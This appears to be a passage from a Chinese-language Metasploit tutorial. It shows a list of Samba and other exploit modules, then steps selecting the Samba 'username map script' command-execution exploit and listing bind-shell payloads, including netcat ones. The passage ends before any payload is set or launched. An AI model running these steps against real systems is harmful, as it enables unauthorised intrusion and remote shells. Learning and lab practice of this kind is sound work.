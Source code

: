 ```
   auxiliary/scanner/smb/smb_uninit_cred                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   exploit/freebsd/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/chain_reply                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/is_known_pipename           2017-03-24       excellent  Samba is_known_pipename() Arbitrary Module Load
   exploit/linux/samba/lsa_transnames_heap         2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap          2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open                  2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans                     2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   exploit/multi/samba/usermap_script              2007-05-14       excellent  Samba "username map script" Command Execution
   exploit/osx/samba/lsa_transnames_heap           2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/osx/samba/trans2open                    2003-04-07       great      Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/lsa_transnames_heap       2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/solaris/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (Solaris SPARC)
   exploit/unix/misc/distcc_exec                   2002-02-01       excellent  DistCC Daemon Command Execution
   exploit/unix/webapp/citrix_access_gateway_exec  2010-12-21       excellent  Citrix Access Gateway Command Execution
   exploit/windows/fileformat/ms14_060_sandworm    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/http/sambar6_search_results     2003-06-21       normal     Sambar 6 Search Results Buffer Overflow
   exploit/windows/license/calicclnt_getconfig     2005-03-02       average    Computer Associates License Client GETCONFIG Overflow
   exploit/windows/smb/group_policy_startup        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   post/linux/gather/enum_configs                                   normal     Linux Gather Configurations

```
3 接下来运行"use multi/samba/usermap_script"选择这个攻击模块，并通过"show payloads"查看可用的攻击载荷:
```
msf > use multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   cmd/unix/bind_awk                                    normal  Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_inetd                                  normal  Unix Command Shell, Bind TCP (inetd)
   cmd/unix/bind_lua                                    normal  Unix Command Shell, Bind TCP (via Lua)
   cmd/unix/bind_netcat                                 normal  Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/bind_netcat_gaping                          normal  Unix Command Shell, Bind TCP (via netcat -e)
```